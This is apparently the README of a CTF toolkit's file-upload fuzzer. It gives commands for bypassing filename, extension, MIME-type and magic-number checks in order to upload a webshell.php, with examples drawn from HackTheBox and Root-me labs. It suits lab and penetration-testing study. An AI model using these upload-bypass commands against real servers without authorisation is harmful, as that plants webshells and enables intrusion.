 # Unrestricted File Upload Fuzzer

uffuf is a specialized tool inspired by the popular fuzzer [ffuf](https://github.com/ffuf/ffuf). It allows users to fuzz file names, content types, and other parameters, to assist in identifying vulnerabilities related to unrestricted file uploads in web applications. It's an alternative to Burp Suite or other web proxies.

#### Basic Usage

* Filename Fuzzing — Bypassing Filename Checks

```shell!
$ onectf uffuf -u https://example.com -p uploadFile -F myFile -w myWordlist -Fn dummyFUZZ
$ # Attempt by prepending a valid extension (filter)
$ onectf uffuf -u https://example.com -p uploadFile -F myFile -w myWordlist -Fn dummy.jpgFUZZ
$ # Attempt by appending a valid extension (misconfiguration, rare)
$ onectf uffuf -u https://example.com -p uploadFile -F myFile -w myWordlist -Fn dummyFUZZ.jpg
```

* MIME type — Investigate the filter

```shell!
$ # Attempt MIME type bypass
$ onectf uffuf [...] -Ft image/jpeg
$ # Attempt magic number bypass
$ onectf uffuf [...] -Ft image/jpeg --spoof
```

* MIME type Fuzzing — Detect Allowed MIME types

```shell!
$ # --spoof is optional if the server don't check the magic number
$ onectf uffuf -u https://example.com -p uploadFile -F myFile -w myWordlist -Ft FUZZ --spoof
```

#### Testing

* Blacklist some extensions (`https://academy.hackthebox.com/module/136/section/1288`)

```shell!
$ onectf uffuf -u <IP:port>/upload.php -p uploadFile -w web-extensions.txt -Fn testFUZZ -mr "File successfully uploaded"
```

* Blacklist and whitelist extensions (`https://academy.hackthebox.com/module/136/section/1289`)

```shell!
$ onectf uffuf -u <IP:port>/upload.php -p uploadFile -w web-extensions.txt -Fn testFUZZ.jpg -mr "File successfully uploaded"
```

* Blacklist and whitelist extensions, MIME type and magic number checking (`https://academy.hackthebox.com/module/136/section/1290`)

```shell!
$ file webshell.php.jpg
webshell.php.jpg: JPEG image data
$ onectf uffuf -u <IP:port>/upload.php -p uploadFile -w web-extensions.txt -F webshell.php.jpg -Fn test.jpgFUZZ -Ft image/jpg -mr "File successfully uploaded"
```

Alternatively, we can use the `--spoof` flag:

```shell!
$ onectf uffuf -u <IP:port>/upload.php -p uploadFile -w web-extensions.txt -F webshell.php -Fn test.jpgFUZZ -Ft image/jpg -mr "File successfully uploaded" --spoof
```

#### Missing Features

* Add an initial dummy test
* Improve Verbose Mode
* Add option to test if uploaded file is executable?
* Root-me notes

```ps
$ onectf uffuf -u URL -p file -F webshell.php -Fn dummyFUZZ -v -W .php.png
$ onectf uffuf -u URL -p file -F webshell.php -Fn dummyFUZZ -v -W .php -Ft 'image/jpeg' -H 'Cookie: PHPSESSID=xxx'
$ onectf uffuf -u URL -p file -F webshell.php -Fn dummyFUZZ -v -W '.php%00.jpg' -Ft 'image/jpeg'
```